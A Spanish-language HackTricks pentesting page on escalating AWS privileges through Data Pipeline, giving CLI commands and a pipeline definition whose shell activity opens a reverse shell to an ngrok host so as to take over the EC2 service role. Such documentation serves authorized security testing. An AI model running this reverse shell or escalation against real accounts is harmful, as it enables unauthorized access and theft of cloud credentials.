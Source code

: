 # AWS - Escalada de privilegios en Datapipeline

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

## Datapipeline

Para obtener más información sobre Datapipeline, consulte:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

Un atacante con los permisos **`iam:PassRole`, `datapipeline:CreatePipeline`,  `datapipeline:PutPipelineDefinition,`** y **`datapipeline:ActivatePipeline`** podría escalar privilegios mediante **la creación de un pipeline y la actualización del mismo para ejecutar un comando AWS CLI arbitrario o crear otros recursos**, ya sea una vez o en un intervalo con los permisos del rol que se pasó.

```bash
aws datapipeline create-pipeline --name my_pipeline \
    --unique-id unique_string
```

Lo que creará un pipeline vacío. El atacante luego necesita **actualizar la definición del pipeline** para decirle qué hacer, con un comando como este:

```json
{
     "objects": [
     {
         "id" : "CreateDirectory",
         "type" : "ShellCommandActivity",
         "command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
         "runsOn" : {"ref": "instance"}
     },
     {
         "id": "Default",
         "scheduleType": "ondemand",
         "failureAndRerunMode": "CASCADE",
         "name": "Default",
         "role": "assumable_datapipeline",
         "resourceRole": "assumable_datapipeline"
     },
     {
         "id" : "instance",
         "name" : "instance",
         "type" : "Ec2Resource",
         "actionOnTaskFailure" : "terminate",
         "actionOnResourceFailure" : "retryAll",
         "maximumRetries" : "1",
         "instanceType" : "t2.micro",
         "securityGroups" : ["default"],
         "role" : "assumable_datapipeline",
         "resourceRole" : "assumable_ec2_profile_instance"
     }]
}
```

{% hint style="info" %}
Tenga en cuenta que el **rol** en **la línea 14, 15 y 27** debe ser un rol **asumible por datapipeline.amazonaws.com** y el rol en **la línea 28** debe ser un **rol asumible por ec2.amazonaws.com con un perfil EC2 de instancia**.

Además, la instancia de EC2 solo tendrá acceso al rol asumible por la instancia de EC2 (por lo que solo se puede robar ese rol).
{% endhint %}

```
aws datapipeline put-pipeline-definition --pipeline-id unique_string \
    --pipeline-definition file:///path/to/my/pipeline/definition.json
```

Donde el **archivo de definición del pipeline contiene una directiva para ejecutar un comando** o crear recursos utilizando la API de AWS que podría ayudar al atacante a obtener privilegios adicionales.

**Impacto potencial:** Escalada directa de privilegios al rol de servicio de EC2 especificado.